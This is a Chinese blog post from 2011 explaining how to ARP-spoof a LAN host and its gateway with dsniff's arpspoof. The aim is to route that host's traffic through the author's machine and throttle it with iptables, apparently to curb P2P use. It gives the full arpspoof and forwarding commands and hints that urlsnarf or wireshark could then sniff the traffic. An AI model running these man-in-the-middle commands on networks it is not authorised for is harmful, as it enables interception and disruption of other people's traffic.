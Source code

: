 ```yaml
---
    author: admin
    comments: true
    date: 2011-11-07 19:16:51
    layout: post
    slug: linux-limit-p2p-ing-host
    title: linux下限制局域网内部使用p2p软件的主机
    wordpress_id: 1865
    categories:
- 服务器
---
```


    windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.

作用：

    arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)

注意：kernel的ip转发必须要提前打开

使用：

    arpspoof [-i interface] [-t target] host

-i 用来指示要使用的网卡接口，一般是eth0,

-t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机

    host 你要截取数据包的主机，通常是网关

具体使用：

环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1

1 安装

    sudo pacman -S dsniff

2 开启内核转发和欺骗

#echo 1 > /proc/sys/net/ipv4/ip_forward

#欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。

$sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1

#欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)

$sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29

_192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_

3 利用iptables开始限速

#192.168.0.29被限制每秒只能传输3个数据包了

$sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   

4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩

参考资料：

[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)

[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
